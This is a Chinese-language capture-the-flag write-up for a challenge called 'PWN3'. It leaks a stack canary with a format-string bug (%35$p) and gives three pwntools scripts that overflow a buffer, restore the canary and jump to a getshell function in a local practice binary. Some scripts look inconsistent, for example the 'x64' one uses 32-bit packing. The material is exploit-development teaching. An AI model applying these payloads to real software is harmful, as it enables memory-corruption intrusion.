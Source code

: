 # PWN3



需要绕过金丝雀值



![image-20210616155355921](Pwn3绕过Canary.assets/image-20210616155355921.png)

看IDA发现存在格式化字符串读取漏洞

![image-20210616155449439](Pwn3绕过Canary.assets/image-20210616155449439.png)



尝试读取金丝雀值

`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`

翻车，堆栈距离太远了无法读取\x00结尾的canary

![image-20210616155333263](Pwn3绕过Canary.assets/image-20210616155333263.png)

去掉点号，增大可读范围

![image-20210616180150103](Pwn3绕过Canary.assets/image-20210616180150103.png)

获得金丝雀值为第35位

改为输入`%35$p`获得相应值



![image-20210616180117446](Pwn3绕过Canary.assets/image-20210616180117446.png)



IDA双击buf查看地址偏移量

![image-20210616190652842](Pwn3绕过Canary.assets/image-20210616190652842.png)



找到可以getshell的内存地址

![image-20210616201330780](Pwn3绕过Canary.assets/image-20210616201330780.png)

获取Canary，溢出+Canary+覆盖ebp一把梭



x64

```python
#!/usr/bin/env python

from pwn import *

context.binary = './pwn3'
# context.log_level = 'debug'
io = process('./pwn3')

get_shell = 0x0804932F #ELF("./pwn3").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("your name:")

# leak Canary
payload = "A"*100 + "A" * 4 # 这里再加4个 A 是因为 100 模 8 是 4 ，如果不补齐 8 位，则无法覆盖canary后面的 \x00
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*104)
Canary = u32(io.recv(8))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*104+p32(Canary)+b"\x90"*8+p32(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()

```

x86

```python
#!/usr/bin/env python

from pwn import *

context.binary = './pwn3'
# context.log_level = 'debug'
io = process('././pwn3')

get_shell = 0x0804932F #ELF("././pwn3").sym["getshell"] # 这里是得到getshell函数的起始地址

io.recvuntil("your name:")

# leak Canary
payload = "A"*100
io.sendline(payload) # 这里使用 sendline() 会在payload后面追加一个换行符 '\n' 对应的十六进制就是0xa

io.recvuntil("A"*100)
Canary = u32(int.from_bytes(io.recv(4),"little"))-0xa # 这里减去0xa是为了减去上面的换行符，得到真正的 Canary
log.info("Canary:"+hex(Canary))

# Bypass Canary
payload = b"\x90"*100+p32(Canary)+b"\x90"*12+p32(get_shell) # 使用getshell的函数地址覆盖原来的返回地址
io.send(payload)

io.recv()

io.interactive()
```

```python
# coding:utf-8
from pwn import *
context.terminal=['tmux',"splitw","-h"]
context.log_level='debug'

sh = process("./pwn3")
elf = ELF("./pwn3")
get_shell = 0x0804932F

payload1 = '%'+str(35)+'$'+'p'
sh.recvuntil("your name:")
sh.sendline(payload1)
sh.recvuntil("Hello,0x")
canary=int(sh.recv(8),16)
success("canary => "+hex(canary))
payload2 = "a"*100
payload2 += str(p32(canary))
payload2 += "b"*8+"b"*4
payload2 += str(p32(get_shell))
sh.sendline(payload2)
sh.interactive()
```

```csharp
"a" * 0x60 + "a" * 4 + p32(canary) + 'b'*8  + 'b'*4 + p32(get_shell)
```